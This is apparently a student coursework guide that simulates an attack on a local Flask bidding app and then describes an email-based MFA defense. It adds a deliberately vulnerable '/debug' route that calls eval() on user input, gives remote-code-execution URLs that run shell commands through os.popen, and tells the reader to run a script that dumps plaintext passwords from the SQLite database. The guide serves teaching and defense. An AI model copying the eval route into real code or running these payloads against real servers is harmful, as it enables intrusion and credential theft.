



# 🛠️ Simulated Attack Chain 1 Guide (Full Workflow)

This document provides a step-by-step simulation of a realistic attack chain that starts from a remote code execution (RCE) vulnerability exposed through a debug route and ends with leaking plaintext user passwords(or password hash value) stored in the SQLite database. This can be used as part of our Coursework 1: Simulate Attacks section.

## 🔗 Attack Flow Overview


## ✅ Prerequisites

Flask app running locally on http://127.0.0.1:5000

A debug route enabled in app.py (for testing only!):

@app.route('/debug')
def debug():
    from flask import request
    q = request.args.get('q')
    return str(eval(q))

## 🧨 Step-by-Step Attack Simulation

### 🔍 Step 1: List server file system recursively

`http://127.0.0.1:5000/debug?q=__import__('os').popen('ls -R').read()`

This lists all folders and subfolders. Identify instance/ or other folders that may contain .db files.


### 🔍 Step 2: Search for .db files

`http://127.0.0.1:5000/debug?q=__import__('os').popen("find . -name '*.db'").read()`

Expected output:

`./instance/bidding.db`


### 🧪 Step 3: Run the leak script to extract plaintext passwords
Update DB_PATH in simulate_attack_password_leak.py with `instance/bidding.db`
run:
```
python simulate_attack_password_leak.py
```
You will see all usernames, emails, and plaintext passwords (because our system currently stores them insecurely).


# Corresponding Secure Policy
To mitigate the risk of credential theft and unauthorized login—especially when the attacker extracts username-password pairs from a leaked database—we implemented a multi-factor authentication (MFA) mechanism that requires users to verify a one-time code sent to their email after successfully entering their password.

This defense is particularly effective against:

- Database leakage (as simulated in the attack)
- Password reuse across platforms
- Credential stuffing from previously leaked data



✨ Key Features of MFA Design

### ✨ Key Features of MFA Design

| Component            | Description                                                              |
|----------------------|---------------------------------------------------------------------------|
| **Verification Method** | Email-based 6-digit code (one-time use)                                  |
| **Trigger Point**        | After username/password verification, before completing login             |
| **Storage**              | Code is stored temporarily in Flask `session`                             |
| **Expiration**           | Codes are valid for one session or approximately 3 minutes               |
| **Mail Sender**          | SMTP via Flask-Mail (e.g., using QQ or Gmail SMTP)                       |
